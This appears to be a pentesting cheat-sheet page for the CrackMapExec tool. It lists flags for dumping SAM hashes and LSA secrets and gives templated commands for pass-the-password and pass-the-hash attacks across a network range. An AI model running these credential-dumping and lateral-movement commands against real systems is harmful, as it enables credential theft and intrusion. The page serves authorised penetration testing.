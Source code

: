 ```yaml
---
title: CRACKMAPEXEC
summary: A swiss army knife for pentesting networks.
description: A swiss army knife for pentesting networks.
---
```


**[https://github.com/Porchetta-Industries/CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)**

## Resources

* Workshop CrackMapExec LeHack 2023 Writeup - BOUYAICHE RAYAN
  https://www.rayanle.cat/write-up-workshop-cme-lehack-2023/

## Flags


 > 
 > **<font color=red>--sam</font>**</br>
 > Dump SAM hashes.
 > 
 > **<font color=red>--lsa</font>**</br>
 > Dump LSA Secrets.

## Pass the Password


 > 
 > **<font color=red>crackmapexec smb</font> \[TARGET_NETWORK_ADDRESS\]<font color=red>/</font>\[TARGET_CIDR\] <font color=red>-d</font> \[TARGET_DOMAIN\] <font color=red>-u</font> \[mySamName\] <font color=red>-p</font> \[myUserPassword\]**</br>
 > Pass the Password around the network to find pwnable machines.

![tool-crackmapexec-example.png](../attachments/tool-crackmapexec-example.png)

## Pass the Hash (NT)


 > 
 > **<font color=red>crackmapexec smb </font>\[TARGET_NETWORK_ADDRESS\]<font color=red>/</font>\[TARGET_CIDR\] <font color=red>-u</font> \[mySamName\] <font color=red>-H</font> \[myUserNTHASH\] <font color=red>--local-auth</font>**</br>
 > Pass the Hash attack (NT Hash) around the network to find vulnerable machines.
